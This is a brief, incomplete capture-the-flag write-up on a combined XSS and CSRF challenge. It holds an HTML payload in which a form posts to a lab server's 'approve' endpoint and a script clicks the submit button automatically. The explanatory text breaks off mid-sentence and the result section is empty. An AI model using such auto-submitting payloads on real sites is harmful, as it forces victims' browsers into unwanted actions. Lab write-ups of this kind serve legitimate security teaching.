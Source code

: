 # CTF6 - XSS + CSRF

The primary objective of this Capture The Flag (CTF) challenge is to attack a website using XSS and CSRF, gaining access to the flag.

## The Exploit
Firstly, we need to ask  

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/9c7588d96859932429857d41a44172902f25821a/approve" role="form">
<div class="submit">
<input type="submit" id="givetheflag" value="Give us the flag"> </div>
</form>
<script>document.getElementById("givetheflag").click();</script>```



## The Result
